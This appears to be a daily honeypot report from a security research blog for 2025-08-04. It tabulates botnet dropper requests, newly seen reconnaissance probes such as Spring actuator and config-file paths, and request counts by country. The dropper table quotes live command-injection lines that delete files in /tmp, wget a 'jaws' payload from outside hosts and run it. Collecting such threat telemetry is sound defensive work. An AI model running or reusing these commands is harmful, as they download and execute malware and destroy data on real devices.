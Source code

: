 ```yaml
---
title: "Report: 2025-08-04 "
date: 2025-08-04
desciption: "Report: 2025-08-04" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-04 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 26 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 427 requests were recorded during the day, originating from 3 different countries, with a peak of 91 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| BR               | Germany            |
| SG               | Germany            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                              |
|:---------------|:-------------------------------------------------------------------------------------|
| 197.51.187.185 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.153.34.39/jaws;sh+/tmp/jaws HTTP/1.1            |
| 8.219.214.90   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 125.71.237.92  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                       |
|----:|----------------------:|:--------------------------------------------------------------|
|  63 |                     1 | GET /dev/actuator/ HTTP/1.1                                   |
|  64 |                     1 | GET /management/;/env HTTP/1.1                                |
|  66 |                     1 | GET /management/mappings HTTP/1.1                             |
|  67 |                     1 | GET /management/ HTTP/1.1                                     |
|  68 |                     1 | GET /api/actuator/;/env HTTP/1.1                              |
|  70 |                     1 | GET /api/actuator/ HTTP/1.1                                   |
|  71 |                     1 | GET /actuator/;/env HTTP/1.1                                  |
|  73 |                     1 | GET /actuator/mappings HTTP/1.1                               |
|  75 |                     1 | GET /reports.js HTTP/1.1                                      |
|  76 |                     1 | GET /js/bundle.js HTTP/1.1                                    |
|  77 |                     1 | GET /bundle.5.1.1.js HTTP/1.1                                 |
|  78 |                     1 | GET /js/messages_manager.js HTTP/1.1                          |
|  79 |                     1 | GET /scripts/services.js HTTP/1.1                             |
|  80 |                     1 | GET /js/configuration.js HTTP/1.1                             |
|  81 |                     1 | GET /js/lib/config.js HTTP/1.1                                |
|  82 |                     1 | GET /js/base.js HTTP/1.1                                      |
|  86 |                     1 | GET /message-api/actuator/ HTTP/1.1                           |
|  94 |                     1 | GET /mappings.json HTTP/1.1                                   |
| 123 |                     1 | GET /resource/image/adminapi/default/web_favicon.ico HTTP/1.1 |
| 126 |                     1 | GET /app/actuator/ HTTP/1.1                                   |
| 160 |                     1 | GET /Odin/http/call1754287869 HTTP/1.1                        |
| 161 |                     1 | GET /OdinHttpCall1754287869 HTTP/1.1                          |
| 162 |                     1 | GET /odinhttpcall1754287869 HTTP/1.1                          |
| 163 |                     1 | GET /OdinHttpCall1754293074 HTTP/1.1                          |
| 164 |                     1 | GET /Odin/http/call1754293074 HTTP/1.1                        |
| 174 |                     1 | GET /odinhttpcall1754293074 HTTP/1.1                          |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                    91 | US                 |
|  1 |                    73 | DE                 |
|  2 |                    56 | NL                 |
|  3 |                    51 | GB                 |
|  4 |                    45 | SG                 |
|  5 |                    18 | SC                 |
|  6 |                    12 | PL                 |
|  7 |                    11 | LT                 |
|  8 |                    11 | BG                 |
|  9 |                    10 | CA                 |
| 10 |                     9 | ZA                 |
| 11 |                     5 | BE                 |
| 12 |                     5 | IN                 |
| 13 |                     4 | RO                 |
| 14 |                     4 | HU                 |
| 15 |                     3 | BR                 |
| 16 |                     3 | KR                 |
| 17 |                     2 | IR                 |
| 18 |                     2 | RU                 |
| 19 |                     2 | GH                 |
| 20 |                     1 | FI                 |
| 21 |                     1 | EG                 |
| 22 |                     1 | FR                 |
| 23 |                     1 | EE                 |
| 24 |                     1 | SI                 |
| 25 |                     1 | CN                 |
| 26 |                     1 | GR                 |
| 27 |                     1 | TW                 |
| 28 |                     1 | LB                 |
| 29 |                     1 | HK                 |
